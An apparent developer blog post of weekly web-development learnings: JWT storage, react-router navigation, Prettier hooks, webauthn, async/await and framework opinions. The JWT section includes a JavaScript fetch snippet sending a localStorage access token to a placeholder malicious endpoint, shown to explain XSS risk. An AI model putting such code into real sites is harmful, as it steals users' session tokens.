 ```yaml
---
title: Weekly Learnings 23rd of May
description: Weekly learnings for the 23rd of May 2019
updatedAt: May 23, 2019
img: https://images.unsplash.com/photo-1580752300992-559f8e0734e0?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=634&q=80
alt: Weekly learnings
tags:
  - javascript
  - learnings
  - web-dev
author:
  name: David Yu
  bio: I love to code
  img: require/_nuxt/assets/content/davidthrone.jpg
---
```


## Storing JWT tokens in localStorage

Storing JWT tokens in `localStorage` is common but it is considered bad practice since it opens you up to exploitation if an XSS attack can be conducted. The token can be accessed if the attacker can execute malicious Javascript on your machine something like this.

```js
fetch('http://somemaliciousendpoint.com', {
  method: 'GET',
  headers: {
    Authorization: `Bearer ${localStorage.getItem('accessToken')}`
  }
})
```

## Dynamic navigation in React

React is like the Microsoft for frontend developers. It simply isn't developer friendly and the library `react-router-dom` which allows us to build SPAs is no exception. There isn't any clear definitive way to dynamically route with it. However the two ways I think are good.

If you have wrapped your app with `<BrowserRouter></BrowserRouter>` component then the `history` object will automatically be passed to all your pages (navigatable components) and you can call `props.history.push('/route-i-want-to-go-to)` or for other components you will have to wrap them in the `withRouter` higher order component to pass the `history` object as a `prop`

If you use `<HashRouter></HashRouter>` component then you can navigate with `location.hash = 'route-i-want-to-go-to`

## A better way to format your project

```sh
yarn add prettier --dev --exact
yarn add pretty-quick husky --dev
```

Add this to your package.json

```js
{ "husky": { "hooks": { "pre-commit": "pretty-quick --staged" } } }
```

Now prettier will format only changed files when you `git-commit`

## The future of authentication

It has always been a pain point for developers to integrate authentication in their apps. Not only that but it has security issues e.g. password reuse and its annoying to enter usernames/passwords to authenticate. Introducing two very exciting developments

- **One tap sign on** by Google signs the user in through one click. Presumably the user still needs to maintain a Google account and they are already authed with their browser. There are a lot of requirements for this one but thus far it provides the best user and developer experience as an auth strategy.

- **webauthn** This one is the most exciting and even if this isn't the exact spec that gets widely used the idea should be what we are heading towards in the future. The idea is that we use biometrics like fingerprints and facial recognition to login to a website. We already can do this for our apps but now we are going to do it for websites.

## Async/await

This syntax

```js
try {
  const response = await someAsyncCallThatReturnsAPromise()
  const response1 = await someAsyncCallThatReturnsAPromise1()
  const response2 = await someAsyncCallThatReturnsAPromise2()
} catch (err) {
  console.error("Shouldn't have failed")
}
```

has become the new standard for writing async applications due it is synchronous like nature that makes it easier for developers to reason with. However one annoying thing that we would have to do is wrap the calls in an async function.

```js{1,7}
;(async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
    const response1 = await someAsyncCallThatReturnsAPromise1()
    const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch (err) {
    console.error("Shouldn't have failed")
  }
})()
```

In order for that code to compile we had to wrap that in an IIFE with the async tag. This is because async/await functions always return a promise and to properly call them we also have to await them

```js{1}
await (async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
    const response1 = await someAsyncCallThatReturnsAPromise1()
    const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch (err) {
    console.error("Shouldn't have failed")
  }
})()
```

Now the parent function has to do something similar. I like this approach because we are explicit about things. Although forgetting to await has caused a lot of bugs modern IDEs should tell you if a function returns a promise or not.

## Svelte

Svelte looks really exciting and I look forward to developing a small real world application with it or build on top of their example. It reminds me of Ruby. Although it appears a lot of magic is going on and it abstracts away a lot of things it improves developer experience but in the past these sorts of languages have never gained momentum, e.g. pug and CoffeeScript. HTML, JS and CSS has seem to always win out in the end which is quite ominous for svelte. I think at the end the big tech companies are the ones that sway the industry if they don't adopt svelte then it won't ever reach critical mass. Therefore it is unlikely it will ever be able to compete with React in terms of industry adoption. Even Vue with its massive popularity still hasn't been widely adopted in the industry except for China.

## React + Apollo + Prisma

Still dislike React in terms of developer experience. I just don't have time and energy to detail for the low level things like updating the dam cache. Prisma is cool gives us free CRUD, pagination and filtering but I can see it struggling when we start to build real world applications due to its unopinionated nature like Express. This is fine for large companies with massive dev teams like I have said before but for the majority of companies and dev teams this wouldn't work for them.

## Misc stuff

- Insomnia is a nice replacement for Postman
- The difference between function `helloworld() {}` and `helloworld = () => {}` is that the first one will automatically hoist the function up so you can use it anywhere
- Ngrok can allow your local dev server to be accessible in the cloud but it is very slow
- Chrome has a lazy attribute for images now e.g. `<img loading="lazy">`
- We should use `Sets` more because they are faster and you can access them by value

